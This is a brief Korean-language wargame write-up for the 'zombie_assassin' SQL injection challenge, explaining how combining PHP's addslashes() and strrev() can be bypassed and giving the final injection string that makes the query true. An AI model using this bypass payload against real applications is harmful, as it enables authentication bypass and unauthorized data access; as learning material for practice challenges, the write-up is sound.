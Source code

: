 ## Q17. zombie_assassin _ Q16
<img src="/photo/prob_17.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: 쿼리문 참으로 만들기
### 해결책

```
제한된 문자 X
but. addslashes(), strrev() 함수가 사용됨
=> 두 함수를 먼저 찾아봄
=> 두 함수에 의해 ' / " / \ 사용 시 \가 붙고 문자열 뒤집어짐
=> 문자열을 벗어나기 위해서는 \를 이용해야함
but. \ 사용시 \\ 되어 문자열로 인식됨
=> 어려움을 겪음, 많은 고민을 함
=> '" 사용하면 "\'\가 되어서 뒤의 '도 문자로 인식됨
```
```diff
# 현재 쿼리문: where id='"\'\' and pw=''
```
```
id='"\'\' and pw=' 는 거짓
=> 뒤에 OR 조건후 참으로 만들면 됨
```
```
해결 쿼리문: where id='"\'\' and pw='||1-- '
```
### CERT <br> ?id='"&pw=+--1||

### 느낀점
```diff
+ php의 strrev(), addslashes() 함수를 배웠다.
+ addslashes(string): string에 ' / " / \ 가 있을 시 그 문자 앞에 \ 붙여서 문자열을 반환함
+ strrev(string): string을 뒤집음

- strrev(), addslashes() 함수가 동시에 사용되어서 어려웠다.
```
